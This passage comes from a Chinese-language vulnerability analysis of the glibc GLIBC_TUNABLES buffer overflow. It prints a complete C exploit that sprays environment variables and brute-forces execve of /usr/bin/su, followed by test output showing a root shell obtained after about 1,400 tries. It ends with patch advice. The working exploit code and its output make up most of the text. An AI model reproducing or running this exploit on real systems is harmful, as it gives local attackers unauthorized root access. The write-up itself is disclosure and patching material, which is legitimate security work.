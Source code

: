 剩下的任务就是确定一个栈地址，接着就是顺其自然的爆破了。  
  
**6. 相关代码**  
  
  
参考资料  
  
最后贴一下简化版的相关代码：  
```
#include <unistd.h>#include <string.h>#include <stdint.h>#include <sys/resource.h>#include <stdio.h>#include <time.h>#include <sys/wait.h>#define ENVP_SIZE 600#define PADDING_SIZE 0x1F0#define STACK_SIZE 0x20000int64_t time_us(){    struct timespec tms;    /* POSIX.1-2008 way */    if (clock_gettime(CLOCK_REALTIME, &tms))    {        return -1;    }    /* seconds, multiplied with 1 million */    int64_t micros = tms.tv_sec * 1000000;    /* Add full microseconds */    micros += tms.tv_nsec / 1000;    /* round up if necessary */    if (tms.tv_nsec % 1000 >= 500)    {        ++micros;    }    return micros;}int main(int argc, char *argv[]){//  char *nargv[] = {"/home/hehe/Documents/libc-exp/test",  NULL};        char *nargv[] = {"/usr/bin/su", "--help", 0};        char *envp[ENVP_SIZE] = {0, };    char fill1[0xd00];    char payload[0x200];    char padding[PADDING_SIZE-3];    char stack_spray[STACK_SIZE];    strcpy(fill1, "GLIBC_TUNABLES=glibc.malloc.mxfast=");    for (int i = strlen(fill1); i < sizeof(fill1) - 1; i++)        {            fill1[i] = 'A';        }        fill1[sizeof(fill1) - 1] = '\0';    strcpy(payload, "GLIBC_TUNABLES=glibc.malloc.mxfast=glibc.malloc.mxfast=");        for (int i = strlen(payload); i < sizeof(payload) - 1; i++)        {            payload[i] = 'B';        }        payload[sizeof(payload) - 1] = '\0';    strcpy(padding, "GLIBC_TUNABLES=");    for (int i = strlen(padding); i < (PADDING_SIZE - 4); i++)    {        padding[i] = 'D';    }    padding[PADDING_SIZE - 4] = '\0';    for (int i = 0; i < STACK_SIZE; i += 8)    {        *(uintptr_t *)(stack_spray + i) = -0x14ULL;    }    stack_spray[STACK_SIZE - 1] = '\0';        for (int i = 2; i < ENVP_SIZE-1; i++)    {        envp[i] = "";    }    envp[0] = fill1;    envp[1] = payload;        // envp[0] = "";        // envp[1] = "";    envp[0x25 + 0xb8] = "\x10\xF0\xFF\xFF\xFC\x7F";    for (int i = 0; i < 0x2F; i++)    {        envp[0x200 + i] = stack_spray;    }        envp[0x1FE] = padding;    envp[0x23F] = "AAAA";    struct rlimit rlim = {RLIM_INFINITY, RLIM_INFINITY};        if (setrlimit(RLIMIT_STACK, &rlim) < 0)        {            perror("setrlimit");        }    int pid;    for (int ct = 1;; ct++)    {        if (ct % 100 == 0)        {            printf("try %d\n", ct);        }        if ((pid = fork()) < 0)        {            perror("fork");            break;        }        else if (pid == 0) // child        {            if (execve(nargv[0], nargv, envp) < 0)            {                perror("execve");                break;            }        }        else // parent        {            int wstatus;            int64_t st, en;            st = time_us();            wait(&wstatus);            en = time_us();            if (!WIFSIGNALED(wstatus) && en - st > 1000000)            {                // probably returning from shell :)                break;            }        }    }    // execve(nargv[0], nargv, envp);    return 0;}
```  
  
测试情况如下：  
```
$ ./myexptry 100try 200try 300try 400try 500try 600try 700try 800try 900try 1000try 1100try 1200try 1300try 1400# id
uid=0(root) gid=0(root)
```  
  
**7. 修复方案**  
  
  
参考资料  
  
各大系统都对该漏洞发布了更新补丁，比如ubuntu  
系统，可以使用如下命令对 glibc 进行更新：  
```
# apt-get update# apt-get upgrade libc6
```  
  